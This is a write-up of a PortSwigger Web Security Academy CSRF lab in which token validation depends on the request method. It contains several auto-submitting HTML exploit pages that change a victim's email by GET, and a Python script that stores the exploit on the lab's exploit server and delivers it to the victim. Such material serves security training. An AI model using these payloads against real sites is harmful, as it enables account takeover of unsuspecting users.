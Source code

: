 This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter`

---

**Goal:** use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

**Analysis:**
_Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used._

_In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:_

```php
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```

I can change the exploit from earlier to a GET request:
`method="POST"` to `method="GET"`

template:
```html
<html> 
	<body>
		<form method="POST" action="https://0a13000b045ad9b380ef266700c5009c.web-security-academy.net/my-account/change-email">
		    <input type="hidden" name="email" value="tester123@gmail.com">
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

exploit:
```html
<html> 
	<body>
		<form method="GET" action="https://0aa6009c04b45874c4c456d500d5003d.web-security-academy.net/my-account/change-email">
		    <input type="hidden" name="email" value="tester123@gmail.com">
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

I'll store the script and do the same thing as i did last lab:

1. Save exploit in the body of the exploit server.
2. Try changing my own email to test the code.
3. Change email and then deliver to the victim to complete the lab.

The exploit works changing my user accounts email so i'll deliver the  exploit and complete the lab.

Update:

```html
<html> 
	<body>
	<script>history.pushState('', '', '/')</script>
        <h1> Hello! </h1>
		<form method="GET" action="https://0aa6009c04b45874c4c456d500d5003d.web-security-academy.net/my-account/change-email">
		    <input type="hidden" name="email" value="tester1234@gmail.com">
            <input type="hidden" name="csrf" value="1234">
            <input type="submit" value="submit request" />
		</form>
		<script>
	        document.forms[0].submit();
		</script>
	<body>
<html> 
```

Rana 

```html
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acee1f521e65f40d80e4b992006a0005.web-security-academy.net/my-account/change-email/" method="get" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

I can change my own email, but when i send it to the victim the lab doesn't complete. Maybe a problem with the lab?

---

```python
#!/usr/bin/env python3
# Lab: CSRF where token validation depends on request method
# Lab-Link: https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method
# Difficulty: PRACTITIONER
from bs4 import BeautifulSoup
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}


def find_exploitserver(text):
    soup = BeautifulSoup(text, 'html.parser')
    try:
        result = soup.find('a', attrs={'id': 'exploit-link'})['href']
    except TypeError:
        return None
    return result


def store_exploit(client, exploit_server, host):
    data = {'urlIsHttps': 'on',
            'responseFile': '/exploit',
            'responseHead': '''HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8''',
            'responseBody': '''<form action="''' + host + '''/my-account/change-email" method="GET">
      <input type="hidden" name="email" value="email&#64;evil&#46;me" />
      <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>''',
            'formAction': 'STORE'}

    return client.post(exploit_server, data=data).status_code == 200


def main():
    print('[+] Lab: CSRF where token validation depends on request method')
    try:
        host = sys.argv[1].strip().rstrip('/')
    except IndexError:
        print(f'Usage: {sys.argv[0]} <HOST>')
        print(f'Exampe: {sys.argv[0]} http://www.example.com')
        sys.exit(-1)

    client = requests.Session()
    client.verify = False
    client.proxies = proxies

    exploit_server = find_exploitserver(client.get(host).text)
    if exploit_server is None:
        print(f'[-] Failed to find exploit server')
        sys.exit(-2)
    print(f'[+] Exploit server: {exploit_server}')

    if not store_exploit(client, exploit_server, host):
        print(f'[-] Failed to store exploit file')
        sys.exit(-3)
    print(f'[+] Stored exploit file')

    if client.get(f'{exploit_server}/deliver-to-victim', allow_redirects=False).status_code != 302:
        print(f'[-] Failed to deliver exploit to victim')
        sys.exit(-4)
    print(f'[+] Delivered exploit to victim')

    if 'Congratulations, you solved the lab!' not in client.get(f'{host}').text:
        print(f'[-] Failed to solve lab')
        sys.exit(-9)

    print(f'[+] Lab solved')


if __name__ == "__main__":
    main()
```

This one worked for me, but i have no idea why, and i don't think i did anything different. 

```html
<form action="https://0ad1002e031b434d84279a370093003f.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anythingelse@0web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>
```

